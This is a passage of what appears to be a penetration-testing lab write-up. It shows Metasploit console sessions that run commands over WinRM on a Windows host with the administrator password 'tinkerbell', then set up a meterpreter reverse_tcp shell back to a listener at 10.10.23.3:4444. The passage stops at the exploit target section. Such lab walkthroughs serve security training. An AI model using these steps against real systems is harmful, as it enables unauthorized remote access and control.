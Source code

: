 ```bash
   USERNAME                   yes       The username to authenticate as
   VHOST                      no        HTTP server virtual host

msf5 auxiliary(scanner/winrm/winrm_cmd) > set RHOSTS 10.4.19.50
RHOSTS => 10.4.19.50
msf5 auxiliary(scanner/winrm/winrm_cmd) > set USERNAME administrator
USERNAME => administrator
msf5 auxiliary(scanner/winrm/winrm_cmd) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf5 auxiliary(scanner/winrm/winrm_cmd) > set CMD whoami
CMD => whoami
msf5 auxiliary(scanner/winrm/winrm_cmd) > run

[+] 10.4.19.50:5985      : server\administrator

[+] Results saved to /root/.msf4/loot/20240115215534_default_10.4.19.50_winrm.cmd_result_317273.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

<br />

**get the meterpreter shell using metasploit `exploit/windows/winrm/winrm_script_exec`**

```bash
msf5 auxiliary(scanner/winrm/winrm_cmd) > use exploit/windows/winrm/winrm_script_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/winrm/winrm_script_exec) > options

Module options (exploit/windows/winrm/winrm_script_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN     WORKSTATION      yes       The domain to use for Windows authentification
   FORCE_VBS  false            yes       Force the module to use the VBS CmdStager
   PASSWORD                    yes       A specific password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      5985             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URI        /wsman           yes       The URI of the WinRM service
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       A specific username to authenticate as
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.23.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
```
